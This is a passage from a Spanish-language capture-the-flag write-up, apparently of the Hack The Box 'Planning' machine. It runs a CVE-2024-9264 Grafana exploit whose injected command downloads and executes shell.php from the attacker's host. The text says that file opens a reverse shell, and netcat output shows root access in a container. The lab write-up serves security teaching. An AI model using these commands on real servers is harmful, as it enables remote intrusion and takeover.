 El exploit utilizado es el siguiente:

```bash
(planning)─(kali㉿kali)-[~/CVE-2024-9264]
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.15.8:8000/shell.php -O /tmp/shell.php && chmod +x /tmp/shell.php && /tmp/shell.php" http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: wget http://10.10.15.8:8000/shell.php -O /tmp/shell.php && chmod
+x /tmp/shell.php && /tmp/shell.php
```

Este comando realiza lo siguiente:

- `-u admin -p 0D5oT70Fq13EvB5r`: especifica las credenciales válidas para autenticarse.

- `-c "<comando>"`: inyecta el comando que se ejecutará remotamente mediante la vulnerabilidad RCE.

- `http://grafana.planning.htb`: especifica la URL del servidor vulnerable.

- - **`wget http://10.10.15.8:8000/shell.php -O /tmp/shell.php`**

Descarga un archivo malicioso (`shell.php`) desde mi servidor atacante al directorio `/tmp` de la máquina víctima.

- **`chmod +x /tmp/shell.php`**  
Cambia los permisos del archivo descargado para hacerlo ejecutable.

- **`/tmp/shell.php`**  
Ejecuta el script descargado, el cual contiene una reverse shell en Bash que conecta de vuelta a mi máquina atacante (IP 10.10.15.8, puerto 1443).

## Conexion RCE

Una vez ejecutado el payload remoto logramos establecer una conexion exitosa con la maquina victima

```bash
(kali㉿kali)-[~]
└─$ nc -lvnp 1443                           
listening on [any] 1443 ...
connect to [10.10.15.8] from (UNKNOWN) [10.10.11.68] 42376
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~# 
```

Como se observa en la shell recibida, la conexión proviene de la IP interna `10.10.11.68` y se obtiene acceso como **usuario root** dentro del contenedor, lo que indica una explotación exitosa de la vulnerabilidad RCE. A partir de este punto, ya es posible interactuar con el sistema comprometido y continuar con la post-explotación o la posible escalada de privilegios hacia el host, si es necesario.

Una vez obtenida la shell reversa dentro del contenedor, se procede a buscar información sensible que pueda permitir acceso persistente o privilegios adicionales. Se navega hasta el directorio de trabajo de Grafana ubicado en: 

```bash
root@7ce659d667d7:/# cd var/lib/grafana
cd var/lib/grafana
```
